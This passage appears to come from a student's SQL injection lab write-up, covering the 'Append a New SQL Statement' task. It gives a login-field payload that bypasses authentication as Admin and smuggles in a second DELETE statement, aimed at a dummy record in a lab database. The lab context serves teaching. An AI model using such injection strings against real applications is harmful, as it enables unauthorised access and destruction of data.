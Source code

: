 ![](images/4-3-3.png)

Observation: the webpage is the same as the one from the previous task. A table with all employees' information is displayed, and we successfully logged in as admin.

### 4.3.3 Append a New SQL Statement

First create a dummy record in the database:

```sql
INSERT INTO credential (Name, Password) VALUES ('Dummy', '123');
```


The SQL statement after injection is expected to be:

```sql
SELECT id, name, eid, salary, birth, ssn, address, email, nickname, Password
FROM credential 
WHERE name= '' or Name='Admin'; 
DELETE FROM credential WHERE Name='Dummy'; #' and Password='$hashed_pwd';
```

- $input_uname = `' or Name='Admin'; DELETE FROM credential WHERE Name='Dummy'; #`
- $input_pwd = `123`
